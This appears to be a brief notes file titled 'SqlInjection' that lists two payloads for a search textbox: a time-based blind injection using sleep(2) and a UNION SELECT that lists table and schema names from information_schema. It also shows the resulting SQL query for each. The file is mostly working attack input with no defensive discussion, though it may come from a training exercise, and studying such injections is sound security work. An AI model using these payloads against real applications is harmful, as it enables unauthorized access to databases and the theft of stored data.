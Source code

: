 # SqlInjection
* //Input to textbox ' And 1 = sleep(2);-- 
```
Select ? from ? where ? Like '%hammer' And 1 = sleep(2);-- %'
```
* //Input to textbox 'Union ( select TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables);--
```
Select ?,?,? from ? where ? Like '%hammer' Union ( select TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables);-- %'
```
